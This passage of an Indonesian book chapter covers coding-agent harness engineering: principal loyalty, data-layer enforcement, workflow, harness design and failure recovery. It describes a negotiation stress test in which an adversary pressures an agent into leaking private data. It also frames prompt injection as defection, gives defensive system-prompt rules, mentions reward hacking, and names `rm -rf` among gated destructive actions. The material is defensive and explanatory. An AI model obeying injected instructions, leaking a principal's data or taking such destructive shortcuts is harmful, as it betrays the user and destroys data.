Mekanisme keamanan di atas mencegah "perintah untuk dieksekusi secara berbahaya"; ada masalah keamanan yang lebih halus—**loyalitas prinsip (*principal*)**: **Agen sebenarnya berada di pihak siapa**. Model dilatih dengan prinsip dasar yang naif—"siapa pun yang berbicara dengan saya, saya akan berusaha sebaik mungkin untuk membantunya"—namun Agen di dunia nyata sering kali beroperasi di bawah **delegasi multi-pihak**: bertindak atas nama pengguna (prinsip) sekaligus berhadapan dengan pihak ketiga yang memiliki konflik kepentingan. Sebuah Agen yang melakukan negosiasi harga untuk Anda tidak dihadapkan pada "pengguna yang butuh bantuan", tetapi pada **lawan negosiasi**. Di sini, "membantu siapa pun yang berbicara" adalah nilai bawaan yang berbahaya—pihak lawan dapat mulai memengaruhi Agen Anda hanya dengan mengajaknya berinteraksi.

Menempatkan model mutakhir ke dalam situasi ini mengungkap suatu **spektrum loyalitas** yang jelas, dengan kedua ujungnya berujung pada kegagalan[^ch5-1]: pada satu sisi, **terlalu jujur**—menyerahkan informasi pribadi dari prinsipal (misalnya, "batas bawah kami adalah 12.000") langsung ke lawan, lalu menyerah setelah beberapa putaran tekanan; di sisi lain, **terlalu curiga**—bahkan menolak permintaan sah dari prinsipal, sehingga gagal menyelesaikan tugas. Bagian tersulitnya adalah bahwa kedua kegagalan ini seperti jungkat-jungkit: jika menambal kebocoran, Anda akan bergeser ke arah penolakan berlebihan—sulit untuk mendapatkan keduanya sekaligus.

Ini sangat relevan bagi Agen Pengodean: konten tak tepercaya yang dibaca dari sebuah repositori, keluaran yang dikembalikan oleh alat, instruksi yang dikirimkan oleh peladen MCP pihak ketiga—semuanya adalah "lawan" yang mencoba mengubah haluan Agen—**injeksi prompt pada dasarnya adalah upaya pembelotan** (Bab 2 dan 4). *Harness* karena itu harus dengan tegas menetapkan siapa yang dipatuhi secara loyal oleh Agen: instruksi dari prinsipal memiliki prioritas tertinggi, sementara segala sesuatu dari pihak luar diturunkan derajatnya secara default menjadi "data yang dapat dikonsultasikan namun tidak membawa kekuatan instruksi." Di dalam prompt sistem (*system prompt*), **kode etik loyalitas** yang efektif adalah: melindungi informasi pribadi prinsipal, termasuk keberadaannya; saat menolak, jangan merinci rincian yang dilindungi, karena tindakan itu sendiri dapat membocorkannya; posisi batas akhir (*bottom line*) yang bersifat privat bukanlah posisi publik; hanya mengeksekusi instruksi dari prinsipal yang jelas dan spesifik; menahan diri dari tekanan yang berulang-ulang. Pada dasarnya, ini adalah penggunaan *Harness* untuk memberi model suatu pendirian yang tidak dimilikinya secara default: **kesetiaan mutlak kepada prinsipal, dan kehati-hatian terhadap pihak eksternal**.

[^ch5-1]: Evaluasi menyeluruh terhadap spektrum loyalitas dan kode etik ini dapat ditemukan dalam Li, Bojie, dan Noah Shi. *Di Pihak Siapa Agen Anda? Loyalitas Prinsipal Multi-Pihak pada Agen LLM.* arXiv:2606.30383, 2026.

**Ketika Kode yang Ditulis AI Sendiri Tidak Dapat Dipercaya: Menurunkan Batas Kepercayaan ke Bawah.**

Kode loyalitas di atas membuat Agen **kemungkinan besar** akan mengikuti aturan, tetapi untuk operasi data berisiko tinggi, "kemungkinan besar" tidaklah cukup—batasan (constraints) harus beralih dari sekadar "berharap Agen akan berkelakuan baik" hingga pada penegakan aturan di tingkat lapisan data. Pendirian yang lebih radikal[^ch5-2] adalah: **perlakukan saja lapisan aplikasi seolah-olah tidak dapat dipercaya dan dorong penegakan (*enforcement*) invariansi (invariant) data agar ditangani di bawahnya**. Selama tiga puluh tahun terakhir, batas integritas (*integrity boundary*) dari perangkat lunak selalu berada di **lapisan aplikasi**—kode *handler* lah yang menentukan siapa yang dapat melakukan setiap operasi dan nilai mana saja yang valid, sementara database mempercayai kode tersebut tanpa syarat; akan tetapi, kode *handler* yang dihasilkan LLM sering kali menghilangkan pemeriksaan perizinan dan integritas yang secara alami pasti disertakan oleh pengembang manusia, dan Agen otonom akan beroperasi langsung pada data produksi sehingga merusak prasyarat (premise) tersebut. Pendekatan baru (yang dapat disebut dengan Obyek Data Tersemat-Izin atau *Permission-Embedded Data Objects*) mengharuskan setiap entitas data membawa seperangkat aturan perizinan yang bersifat deklaratif, validator, dan pernyataan konsekuensi di dalam sebuah **skema yang telah ditinjau manusia**, lalu ditegakkan oleh lintasan runtime (*runtime pipeline*) di **setiap operasi tulis**. Primitif kuncinya adalah **konteks akses** yang disematkan (attached) ke setiap operasi: kode handler (yang baru dibuat) akan berjalan seiring dengan izin dari pengguna yang dilayaninya, sementara Agen otonom akan berjalan di bawah identitas yang telah dibatasi bagi dirinya sendiri (*scoped principal*)—ketimbang hanya berharap agar Agen tetap loyal, arsitektur malah memperlakukannya sebagai prinsipal yang dibatasi, sehingga meskipun telah dikompromikan (compromised), tidak dapat melampaui hak izinnya.

Dalam perbandingan menggunakan set prompt yang sama, mekanisme ini sukses membuahkan **nol pelanggaran proses tulis atas invariansi yang sudah dideklarasikan**, sementara eksekusi SQL mentah (bare SQL), pemeriksaan kode dari LLM, *constitutional prompts*, dan pengadang (*interceptor*) batasan-aksi, masing-masing setidaknya masih meloloskan segelintir hingga puluhan pelanggaran. Ini bukan sekadar "kemungkinan besar benar" namun sudah menjadi "tidak mungkin salah", asalkan harus mengorbankan durasi proses sekitar 2 milidetik lebih lama tiap proses tulis (write). Tentu, jaminan ini hanya berlaku asalkan syarat terpenuhi: skema (schema) benar-benar mampu menangkap seluruh invariansi (invariant) yang dituju, lalu penerapan (deployment) harus memblokir semua jalan bagi lapisan tak terpercaya (untrusted layer) ini agar tidak langsung menuju database tanpa melalui sistem penyimpan (storage). Bagi Agen Pengodean, hal ini menghasilkan suatu prinsip arsitektur yang sangat penting: **pada saat penulis dan pelaksana kode sama-sama tak terpercaya, batas perlindungan (constraint) yang benar-benar andal tidak akan dapat bermukim di dalam kode yang sudah dihasilkan, namun hal itu harus diwujudkan di dalam fondasi buatan (yang sudah ditelaah) manusia, dan di bawah pengawasannya**—ini merupakan bentuk puncak dari prinsip "batasan melampaui arahan" (constraints over guidance) yang diambil dari Bab 1, dan akan diaplikasikan di tataran lapisan data.

[^ch5-2]: Desain dan evaluasi terkait "menurunkan batas kepercayaan ke lapisan di bawah lapisan aplikasi" ini (meliputi sekumpulan perbandingan penuh tentang hitungan angka atas suatu pelanggaran di berbagai pilihan solusi) akan dibahas pada, Li, Bojie. *The Application Layer Is No Longer Trusted: Enforcing Data Invariants Below AI-Written Code and AI Agents.* 2026 (segera terbit).
### Alur Kerja Keseluruhan dari Agen Pengodean




Berikut ini diuraikan sebuah **alur kerja rekayasa yang direkomendasikan**. Bagian ini menyajikan penerapan ideal dari praktik terbaik rekayasa perangkat lunak untuk Agen Pengodean. Agen Pengodean di dunia nyata (seperti Claude Code, OpenClaw) lebih sering bekerja dalam siklus reaktif, iteratif, dan **memangkas alur kerja ini sesuai kebutuhan**—untuk tugas sederhana mereka melewati dokumen desain dan tidak terblokir menunggu persetujuan pengguna di setiap langkah; hanya ketika tugas kompleks dan dampaknya luas barulah mereka menjalankan setiap tahapan secara penuh.

**Dokumentasi Proyek.**

Pekerjaan Agen Pengodean dimulai dengan pemahaman sistematis tentang proyek. Saat sebuah Agen pertama kali menemukan repositori kode, tugas pertamanya bukanlah mulai mengubah kode, tetapi membangun kerangka kognitif untuk keseluruhan proyek—sama seperti seorang insinyur baru tidak langsung mendorong (push) kode pada hari pertama, tetapi memulai dengan mempelajari lanskap proyek. Agen memulai dengan memeriksa apakah proyek memiliki dokumentasi—sebuah README, dokumen desain arsitektur, panduan pengembang.

Jika dokumen-dokumen utama tidak ada, Agen tidak boleh mulai bekerja secara membabi buta. Ia harus secara sistematis memeriksa basis kode (codebase), mengidentifikasi modul utama, abstraksi inti, dan dependensi komponen, serta menyusun gambaran umum arsitektur, panduan direktori, dan petunjuk untuk menjalankan pengujian. Dokumen-dokumen ini berfungsi sebagai cetak biru untuk pekerjaan Agen selanjutnya dan menyediakan titik masuk bagi pengembang lain. Ini mewujudkan sebuah prinsip utama: eksternalisasi pengetahuan adalah prasyarat untuk kolaborasi yang efisien.

Dokumentasi proyek kini memiliki bentuk khusus untuk Agen: **File Instruksi Proyek**. File-file seperti CLAUDE.md, AGENTS.md, .cursorrules telah menjadi standar industri secara de facto—file tersebut secara otomatis disuntikkan ke dalam konteks pada setiap awal sesi, bertindak sebagai *system prompt* di tingkat proyek. Berbeda dengan README yang ditujukan untuk pembaca manusia, file instruksi membawa konvensi perilaku untuk Agen: perintah *build* dan pengujian ("gunakan `pnpm test` bukan `npm test`"), gaya kode ("hindari penggunaan tipe `any`"), dan zona larangan yang jelas ("jangan ubah direktori `migrations/`"). Ini adalah gagasan yang sama dengan `SOUL.md` milik OpenClaw (mendefinisikan identitas dan aturan perilaku Agen) dan `MEMORY.md` (mengakumulasi pengalaman lintas-sesi), yang diterapkan di tingkatan yang berbeda: SOUL.md mendefinisikan "siapa Agen itu," sementara file instruksi proyek mendefinisikan "bagaimana cara bekerja di proyek ini." Dari perspektif rekayasa konteks di Bab 2, file instruksi juga merupakan awalan stabil yang paling ekonomis—kontennya tidak berubah dengan tugas, membuatnya secara alami ramah terhadap *KV Cache*; mereka juga merupakan implementasi paling langsung dari prinsip bahwa "pengetahuan harus ada di dalam basis kode itu sendiri."

Prinsip eksternalisasi pengetahuan ini juga memiliki konsekuensi menarik: **Tim yang ramah terhadap pekerjaan jarak jauh (remote work) sering kali juga ramah terhadap Agen AI.** Tim *remote* terpaksa bergantung pada komunikasi asinkron dan dokumentasi—keputusan dicatat dalam dokumen, konteks hidup dalam deskripsi isu dan PR (Pull Request), pengetahuan kelompok terakumulasi dalam panduan pengembang daripada diteruskan dari mulut ke mulut di meja sebelah atau di papan tulis ruang rapat. Ini persis seperti bentuk pengetahuan yang dapat dikonsumsi Agen: Agen tidak dapat membaca kesepakatan lisan, tetapi dapat membaca dokumen desain. Sebaliknya, tim yang beroperasi dengan prinsip "tanya saja orang yang duduk di sebelah saya" membebankan biaya *onboarding* yang sama mahalnya kepada Agen dengan yang dibebankan kepada karyawan *remote* baru. Sebuah proksi sederhana untuk kesiapan AI (*AI-readiness*) dari suatu tim: dapatkah pendatang baru yang *remote* bekerja secara mandiri hanya dengan repositori kode dan dokumentasinya?

**Pemahaman Tugas dan Klarifikasi Kebutuhan.**

Untuk kebutuhan yang sederhana dengan batasan jelas dan dampak terbatas—seperti memperbaiki *bug* yang diketahui atau menyesuaikan parameter fungsi—Agen dapat langsung melanjutkan ke fase implementasi. Namun, sebagian besar tugas dalam pengembangan perangkat lunak tidak sesederhana ini.

Untuk kebutuhan kompleks, Agen harus lebih berhati-hati dan metodis. Kompleksitas dapat muncul dari berbagai dimensi: ambiguitas dari kebutuhan itu sendiri (pengguna tahu apa yang mereka inginkan tetapi tidak dapat mengungkapkannya secara presisi), beragamnya jalur implementasi (banyak solusi teknis dengan imbal baliknya masing-masing), atau luasnya dampak (membutuhkan modifikasi pada banyak modul, yang berpotensi merusak fungsi yang ada). Agen harus memperjelas batasan melalui riset eksploratif dan secara proaktif berdialog dengan pengguna bila diperlukan. Sebagai contoh, ketika pengguna meminta untuk "mengoptimalkan kinerja sistem," Agen pertama-tama perlu menentukan tujuan spesifiknya (mengurangi waktu respons, mengurangi penggunaan memori, atau meningkatkan *throughput*), imbal balik (trade-off) mana yang dapat diterima (misalnya, apakah peningkatan kompleksitas kode dapat diterima), dan di mana letak kebuntuan (*bottleneck*) saat ini. Mulai mengode ketika persyaratannya masih kabur sering kali mengarah pada pengerjaan ulang yang signifikan.

**Menulis Dokumen Desain.**

Dokumen desain adalah jembatan yang menerjemahkan kebutuhan abstrak ke dalam rencana implementasi konkret. Dokumen ini harus menjawab empat pertanyaan inti: modul mana yang harus dimodifikasi dan mengapa, pendekatan mana yang harus dipilih dan imbal balik apa yang ditimbulkannya, dependensi baru apa yang dibutuhkan, dan dampak apa yang diharapkan dari perubahan tersebut terhadap sistem. Menulis dokumen desain itu sendiri adalah bentuk pemikiran mendalam—ini memaksa Agen untuk memvalidasi kelayakan solusi secara konseptual sebelum menginvestasikan banyak waktu dalam pengodean. Yang lebih penting lagi, dokumen desain menyediakan titik intervensi yang efisien bagi manusia—meninjau dokumen desain yang ringkas jauh lebih mudah daripada meninjau ratusan baris kode. Setelah menyelesaikan dokumen desain, Agen harus menyerahkannya untuk ditinjau oleh pengguna dan menunggu persetujuan sebelum melanjutkan.

**Implementasi Kode dan Pengujian.**

Setelah mendapatkan persetujuan desain, Agen mengikuti konvensi kode proyek untuk implementasi, menggunakan kembali abstraksi dan alat yang sudah ada, serta melakukan *refactoring* yang secukupnya ketika diperlukan untuk menjaga kesehatan basis kode.

Setelah implementasi, Agen segera memasuki fase jaminan kualitas berbasis tes (test-driven)—menulis kasus uji (test case) untuk fungsionalitas baru atau yang dimodifikasi, mencakup jalur normal, kondisi batas, dan skenario kesalahan. Setelah menulis tes, Agen mengeksekusi kumpulan tes (test suite) tersebut. Jika tes gagal, Agen seharusnya tidak sekadar melaporkan kegagalan kepada pengguna tetapi harus menganalisis penyebabnya, menemukan masalahnya, dan memodifikasi kodenya sampai semua tes lulus. Lingkaran "tes-perbaikan" ini mungkin membutuhkan beberapa iterasi, dan kemampuan koreksi-diri inilah yang mengangkat Agen Pengodean dari sekadar generator kode menjadi asisten rekayasa yang andal. Sebaliknya, cara paling umum Agen Pengodean bermalas-malasan adalah dengan melewati fase ini sama sekali—menulis kode dan melaporkan "tugas selesai" tanpa pernah menjalankan pengujian. Mendefinisikan "tes lulus," alih-alih "kode ditulis," sebagai kriteria penyelesaian adalah tepat seperti prinsip Rekayasa Lingkaran (Loop Engineering) yang membiarkan verifikasi menentukan kapan saat yang aman untuk berhenti, yang diterapkan pada pengodean (Bab 10 membahas sistem ini dengan membedah penghentian dini/premature termination secara sistematis).

Sekalipun semua tes lulus, pekerjaan Agen belum selesai. Fase selanjutnya adalah peninjauan kode (*code review*): Agen secara kritis memeriksa kodenya sendiri yang telah dihasilkan. Apakah itu dapat dibaca dan diberi komentar dengan memadai? Apakah ada masalah kinerja atau kerentanan keamanan yang tersembunyi? Apakah itu mengikuti gaya kode proyek dan praktik terbaik? Tinjauan diri (self-review) ini dapat dilakukan dengan membaca kode, menjalankan alat analisis statis (lint tools), atau memanggil sub-agen peninjauan kode khusus. Jika tinjauan menemukan masalah, Agen harus kembali ke fase modifikasi dan memperbaikinya, alih-alih menyerahkan kode cacat kepada pengguna.

**Sinkronisasi Dokumentasi dan Pengiriman.**

Jika perubahan kode melibatkan perubahan arsitektural—seperti memperkenalkan modul baru, mengubah dependensi antar modul, atau mengubah semantik abstraksi inti—Agen perlu memperbarui dokumentasi arsitektur sebagaimana mestinya. Dokumentasi yang usang lebih buruk daripada tidak ada dokumentasi karena hal itu menyesatkan pengembang masa depan. Dengan secara otomatis memperbarui dokumentasi setelah setiap perubahan yang signifikan, Agen membantu mempertahankan integritas dan aktualitas (timeliness) basis pengetahuan proyek.

Alur kerja ini mewujudkan prinsip inti rekayasa perangkat lunak: perencanaan mendahului tindakan, verifikasi berjalan di sepanjang proses, dan dokumentasi berevolusi bersama dengan kode.

### Praktik Rekayasa Harness untuk Agen Pengodean

Bab 1 memperkenalkan konsep Rekayasa Harness (Harness Engineering) dan formula **Agent = Model + Harness**. Harness di sini mencakup konteks dan alat dari formula inti, serta kendala, verifikasi, dan mekanisme koreksi—kelima elemen ini bersama-sama membentuk Harness seperti yang didefinisikan dalam Bab 1. Agen Pengodean mungkin adalah domain di mana Rekayasa Harness paling terasa hasilnya—menulis kode adalah tugas Agen yang **paling dapat diverifikasi**, dan kendala, verifikasi, serta koreksinya semuanya dapat bersandar pada infrastruktur yang ada. Bagian ini berfokus pada praktik konkret dalam skenario Agen Pengodean.

Apakah sistem berjalan stabil sering kali tidak begitu bergantung pada kekuatan model melainkan lebih pada kekokohan infrastruktur yang dibangun di sekitar Agen. Bab 1 membagi Harness ke dalam dua lapisan—**Konteks dan Alat** (memungkinkan Agen untuk bertindak) dan **Kendala, Verifikasi, serta Koreksi** (membantu Agen bertindak aman dan benar). Dalam skenario Agen Pengodean, ini diterjemahkan ke dalam komponen-komponen rekayasa yang spesifik:

- **Baseline Penerimaan (Acceptance Baseline)**: Apa yang disebut "selesai"—test suites, pipeline CI (Continuous Integration pipeline, serangkaian pemeriksaan yang secara otomatis dijalankan setelah pengiriman kode), standar tinjauan kode.
- **Batas Eksekusi (Execution Boundary)**: Apa yang boleh dan tidak boleh disentuh Agen—batasan modul, aturan dependensi, kontrol izin.
- **Sinyal Umpan Balik (Feedback Signals)**: Penilaian kebenaran yang diotomatiskan—keluaran Linter (alat pemeriksa gaya kode yang otomatis dapat menemukan kesalahan pemformatan dan potensi isu), hasil tes, kesalahan pengecekan tipe data.
- **Mekanisme Rollback**: Bagaimana memulihkan sistem jika terjadi kesalahan—kontrol versi Git, isolasi sandbox, rollback lewat snapshot.

**Mengapa Agen Pengodean Sangat Cocok untuk Rekayasa Harness.**

Dua dimensi — seberapa jelas tujuannya, dan seberapa otomatis verifikasinya — membagi tugas ke dalam empat kondisi. Sebuah tujuan jelas dengan hasil yang dapat diverifikasi secara otomatis adalah ranah tempat Agen berkembang pesat; sebuah tujuan jelas di mana penerimaannya masih bergantung pada peninjauan manusia membatasi *throughput* pada kecepatan tinjauan manusia; umpan balik terotomatisasi dengan tujuan samar membuat sistem berjalan efisien ke arah yang salah; kurangnya keduanya, membuat Agen menjadi tidak berguna. Tabel 5-1 menunjukkan empat kondisi ini. Tujuan dari Harness adalah mendorong sebanyak mungkin tugas ke kuadran "tujuan jelas + verifikasi otomatis".

Tabel 5-1 Empat Kuadran Kejelasan Tugas dan Otomatisasi Verifikasi

| | Hasil dapat diverifikasi secara otomatis | Hasil membutuhkan verifikasi manual |
|---------|--------------------------------------------|------------------------------------------|
| **Tujuan jelas** | Titik ideal (Sweet spot): memperbaiki bug dengan test case | Dibatasi oleh throughput: refactoring kode membutuhkan tinjauan manual |
| **Tujuan samar** | Melenceng dengan efisien: mengoptimalkan "kualitas kode" dengan linter | Sulit untuk memulai: "buat UI terlihat lebih baik" |

Tugas-tugas penulisan kode secara alami menempati kuadran "tujuan jelas + verifikasi otomatis"—test suite menyediakan kriteria penerimaan yang jelas, linter dan type checker menawarkan verifikasi otomatis secara instan, dan Git memberikan kontrol versi yang sempurna serta kemampuan rollback. Ini menjelaskan mengapa Agen Pengodean saat ini adalah yang paling matang di antara semua tipe Agen: bukan karena model pembuatan kodenya luar biasa kuat, melainkan karena puluhan tahun infrastruktur rekayasa perangkat lunak yang telah diakumulasi secara alami membentuk sebuah Harness yang kokoh.

**Praktik Industri.**

Tiga studi kasus dari praktik Harness mengonfirmasi prinsip-prinsip di atas:

- **Kasus migrasi kode berskala besar** (dari praktik migrasi kode berskala besar yang dibagikan secara publik oleh sebuah perusahaan teknologi besar): Kuncinya bukan pada kekuatan model, melainkan pada Harness yang melakukan tiga hal dengan benar—pengetahuan harus berada dalam basis kode itu sendiri (apa yang tidak dapat dilihat oleh Agen tidak ada), batasan disandikan (encoded) ke dalam linter dan CI alih-alih dituliskan dalam dokumentasi, serta verifikasi dan koreksi sepenuhnya terotomatisasi dari ujung-ke-ujung (end-to-end).
- **LangChain**: Secara signifikan meningkatkan kinerja tugas benchmark hanya dengan mengoptimalkan Harness (system prompt, tool middleware, lingkaran self-verification). Yang patut dicatat adalah metodologi "menggunakan Agen untuk menganalisis trajektori kegagalan demi meningkatkan Harness," menggeser rekayasa Harness dari didorong oleh pengalaman (experience-driven) ke didorong oleh data (data-driven).
- **Anthropic**: Membagi tugas panjang ke dalam dua peran—Agen inisialisasi yang bertanggung jawab memecah tugas besar menjadi daftar tugas, dan Agen pelaksana yang bertanggung jawab untuk melanjutkan langkah demi langkah, meninggalkan hasil sementara (seperti file kode yang selesai dan daftar tugas yang diperbarui) untuk putaran berikutnya agar terus digunakan. Pembagian kerja ini memecahkan masalah Agen yang berjalan lama (long-running) yang "mencoba melakukan terlalu banyak pada satu waktu" atau "mengklaim selesai sebelum waktunya."

**Dari Agen Pengodean Menuju Prinsip Desain Harness Umum.**

Praktik Harness dari Agen Pengodean memberikan prinsip desain yang dapat ditransfer untuk semua sistem Agen:

1. **Batasan melampaui arahan (Constraints over guidance)**: Aturan yang dapat ditegakkan dengan kode harus disandikan (encoded) di sana, bukan sekadar disarankan dalam dokumentasi. Nilai dari aturan linter, batasan tipe data, dan pemeriksaan CI jauh melampaui panduan "tolong ikuti..." dalam system prompt—yang pertama berarti "tidak bisa dilakukan," sedangkan yang kedua hanya "disarankan untuk tidak."
2. **Otomatisasi verifikasi**: Tinjauan manual adalah bottleneck yang tidak dapat diskalakan (unscalable). Investasi dalam test suite, pemeriksaan kualitas kode, dan pemantauan perilaku memberikan imbal hasil jauh lebih tinggi ketimbang menambah lebih banyak upaya manusia.
3. **Umpan balik harus secepat dan seterstruktur mungkin**: Semakin rinci pesan kesalahannya dan semakin dekat dengan momen terjadinya kesalahan, semakin efisien Agen dapat memperbaiki dirinya sendiri. Teknik status bar Agen dari Bab 2 (pesan kesalahan rinci, counter alat pemanggilan) mewujudkan prinsip ini.
4. **Rollback harus andal**: Agen hanya bisa bereksperimen dengan berani saat beroperasi dalam jaring pengaman. Branch Git, lingkungan sandbox, dan mekanisme snapshot memastikan bahwa segala kesalahan dapat dibatalkan (reversible).

**Tujuan yang lebih dalam dari batasan: mencegah kesalahan proses.** Baseline penerimaan mengatur apakah hasilnya benar; batas eksekusi mengatur **prosesnya**—sekalipun hasilnya benar hal tersebut tidak membenarkan metode yang salah. Menghapus dan membangun ulang basis data demi "memperbaiki" gangguan basis data memang menyelesaikannya, tetapi datanya hilang; menghapus semua kode demi memperbaiki kesalahan kompilasi memang meloloskan kompilasi, namun implementasinya musnah. Jalan pintas destruktif seperti ini selalu ada: bahkan ketika batasan telah ditulis ke dalam metrik evaluasi akhir, Agen sering kali menemukan celah mengakalinya—ini adalah bentuk umum dari *reward hacking* (Bab 7) dalam tugas Agen. Harness di tahap produksi karenanya menempatkan pemeriksaan dan persetujuan yang dikhususkan pada tindakan-tindakan berbahaya semisal `rm -rf`, menghapus data produksi, atau menimpa sebuah file yang belum dibaca (parsing semantik di bagian keamanan dari bab ini, tinjauan Sidecar di Bab 4), yang bertujuan menekan **tindakannya**, bukan sekadar hasil. RLVP pada Bab 7 (Reinforcement Learning with Verified Penalty—"hadiahi hasil akhirnya, hukum prosesnya") menjawab masalah yang sama dari sisi pelatihan: melampaui imbalan atas hasil akhir, sistem ini memberi penalti pada pelanggaran yang dapat diverifikasi di sepanjang proses, menginternalisasi prinsip "tanpa cara destruktif" sebagai pemahaman dasar model di tingkat rekayasa (engineering common sense). Untuk model yang ada, palang pengaman (guardrails) Harness merupakan batasan dari luar; sedangkan untuk model yang dapat dilatih, penalti proses adalah internalisasi kendala yang sama. Tujuannya identik.

**Orkestrasi Alat (Tool Orchestration): Kontrol Batas Kesalahan (Fault Boundary Control)**. Agen Pengodean yang mapan (mature) mendukung pemanggilan alat paralel. Masalah khusus yang mencuat dari perspektif Harness adalah **bagaimana kesalahan merambat**: ketika sebuah alat gagal, panggilan (calls) mana yang harus dibatalkan dan mana yang harus dilanjutkan? Prinsipnya adalah rambatan kesalahan hanya terjadi pada batch panggilan paralel yang sama, tidak diteruskan ke operasi induk (parent operation). Misalnya, pada saat membaca tiga berkas secara paralel, sebuah berkas yang hilang hanya akan menggagalkan panggilan pada dirinya sendiri; bukan berarti pembatalan dua yang lainnya, ataupun seluruh penugasan itu. Kontrol batas kegagalan berskala sangat spesifik (fine-grained fault boundary control) ini menghindari terjadinya skema rapuh semacam "satu perintah yang gagal lalu seluruh beban kerja dibatalkan." Mekanisme lebih rinci mengenai pemanggilan paralel (parallel calls), proses parsing secara berkesinambungan (streaming), maupun efek batal yang saling merembet (cascading aborts) sudah dijabarkan di bagian "Tips Penerapan/Implementation Tips" di bab ini.

### Pemulihan Kesalahan dan Kegagalan

Bagian sebelumnya memaparkan prinsip dan ragam komponen rekayasa Harness; di bagian ini, sorotan berpusat pada potongan yang justru menjadi pembeda paling nyata tingkat kematangan sistem rekayasa—yaitu **Pemulihan dari Kegagalan dan Kesalahan**. Percobaan (ablation experiment) pada Bab 1 telah mengungkap betapa krusial dan fatalnya problem ini: luput memuat hanya sebiji bagian balasan dari (tool result) rupanya dapat memenjarakan Agen pada pusaran siklus tanpa ujung—dan di lingkungan produksi dunia nyata ragam bentuk kegagalan acap kali jauh lebih tidak terduga dibandingkan sebuah simulasi. Bagian berikut ini akan merangkum secara komprehensif atas tiga buah tanya jawab: Apa jenis masalah yang sering dihadapi Harness kelas-produksi? Lalu bagaimana melacak (detect) dan menyembuhkannya? Terakhir, kapan sebuah siklus wajib menyudahi diri (terminate)?[^ch5-3]

[^ch5-3]: Klasifikasi tipe kerusakan dan pendedahan berbagai mekanisme pada subjudul ini disandarkan dari kajian mendalam terhadap *source code* pada berbagai rupa terapan level produksi (mis. Claude Code). Setiap spesifik penerapannya sangat cepat ber-evolusi dari waktu ke waktu (across versions); namun ulasan ini menapis sedemikian rupa sehingga hanya menyaripatikan elemen kestabilan prinsip perekayasaan saja.

**Taksonomi Kegagalan: Empat Lapisan Utama.** Cara mendasar untuk merespons semua ini bersumber dari tahapan mengklasifikasi. Segala persoalan tersebut dijabarkan menjadi 4 lapis berlandaskan pada titik mula kejadian:

- **Lapisan API**: batasan jumlah panggilan per satuan waktu (*rate limiting*/HTTP 429), server kewalahan (*service overload*), putusnya sambungan waktu (*request timeouts*), jaringan terputus tiba-tiba, serta terpotongnya limit token keluaran. Kegagalan-kegagalan semacam ini seringnya luput sama sekali dari subtansi dari yang seharusnya di jalankan—ini murni bisingan sistem infrastruktur (*infrastructure noise*).
- **Lapisan Tool**: memanggil tool yang rupanya adalah imajiner (*hallucinated calls*), input salah kaprah/tak semestinya (*malformed arguments*), kesalahan pada eksekusi (*execution exceptions*), dan kegagalan yang efeknya sangat menghancurkan, yaitu—ketika sistem selalu mendapatkan umpan balik kesalahan secara *looping* di sisi Tool (repeated error) saat pada sisi model hal ini justru terus dicoba berulang-ulang dengan kondisi pemanggilan mula tanpa perombakan (retried unchanged).
- **Lapisan Konteks**: muatan window telah sarat-padat (overflow), proses pemampatan (*compaction failure*) rumpang, serta korupsi sistematis struktur trayektori (mis. *tool call* terpisah dari respon/result message-nya sendiri).
- **Lapisan Flow-Kontrol (Control-flow layer)**: siklus buntu (*infinite loops*, berulang tanpa kelanjutan) atau pusaran spiral (death spirals/recovery logic di hantam rentetan ralat secara domino tanpa muara).

**Deteksi: Pertama Klasifikasi, Lalu Berhitung.** Tatkala kerusakan muncul, pertanyaannya bukanlah "Dapatkah kita lakukan retry?" tapi lebih pada "Akankah percobaan-ulang (*retry*) memiliki dampak?". Pada error bertipe *retryable* (rate limit, kelebihan batas antrean/overload, serta koneksi timbul-tenggelam) amat lah mumpuni untuk dicoba; Akan tetapi bagi error kategori bukan-*retryable* (*invalid arguments*, tidak berizins/*insufficient permissions*, Tool yang secara asalnya memang tidak ada) dipastikan bakalan selalu menerbitkan *result* yang serupa tak pandang bulu di-retry sebegitu banyak pun dalam kondisi utuh seperti sebelum nya—maka masukannya (*input*), ataupun trik akal nya (*strategy*) harusnya berubah. Produsen kelas wahid Harness menyimpan susunan *mapping* yang cermat antara aneka rupa *error* menuju jurus-jurus penyelesaian (*recovery strategies*), bukan menyemprot sapu rata "ulang terus kalau salah (retry on error)."

Lebih dalam lagi dari hitungan tiap kesalahan (individual errors), awasi dari ranah **Pola (patterns)**. Yang kesatu, melacak pemanggilan (*repeated-call fingerprints*): konversikan rupa (hash) gandaan *'tool name + arguments'*-nya; kemunculan ujud *fingerprint* secara terus menerus, terang benderang menjadi bel pemberitahuan mengenai pola *no-progress loop* (putaran hampa tiada usai)—pada studi Agen pada bab 1 (ablation) wujud pemanggilan bertubi-tubi satu-buah alat tanpa jemu adalah wujud pola dari persis kejadian tersebut. Dan yang keduanya, pencatatan hitungan error yang berturutan (*consecutive-failure counters*): aneka rute jalur *recovery* juga merekam total dari *counter*-nya mandiri, menyokong penentu batas arus (circuit breaker) kelak pada penjabaran setelah paragraf ini.

